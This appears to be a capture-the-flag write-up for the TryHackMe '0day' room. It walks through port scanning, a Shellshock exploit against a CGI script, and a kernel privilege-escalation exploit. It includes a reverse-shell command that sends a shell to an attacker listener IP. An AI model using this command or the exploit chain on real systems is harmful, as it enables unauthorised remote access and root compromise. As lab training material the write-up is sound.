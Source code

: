 ```yaml
---
title: 0day
published: true
tags: [CVE, kernel exploit, shell shock, 0day]
---
```


<https://tryhackme.com/room/0day> Exploit Ubuntu, like a turtle in a hurricane.

# Notes

nmap scans give us 22 and 80

exploring the site with gobuster we find a RSA Private key in `/backup/` but this seems to be a rabbit hole....

running nikto on the site we get that the site appears vulnerable to checllshock CVE-2014-6278

this exploit works by abusing a vulnerability that exists becuause Bash is operating as a parser for CHI scripts on web servers and the way it handles specifically-formatted enviroment variables, namely explorted shell functions.

using the exploit 34766 we can take advantage of this.

- `php 34766.php -u http://0day.thm/cgi-bin/test.cgi -c "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1"`

And we can see we get a shell from the target and capture user.txt.

# Privesc

- `uname -a` we see the system is running ubuntu 3.13.

- `searchsploit -m 37292` to copy the vulnerability to the directory we are in. I was having trouble compiling with gcc on the target so we much use `dos2unix 37292.c` before sending in order to compile correctly.

now when trying to compile we get an error `gcc: error trying to exec 'cc1': execvp: No such file or directory`. Looks like its unable to find `cc1`. `cc1` is the program responsible for converting C code into assembler. To fix we can fix our PATH. `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin` Running the compiler again we can then execute our exploit. Which then we can pickup the last root.txt flag.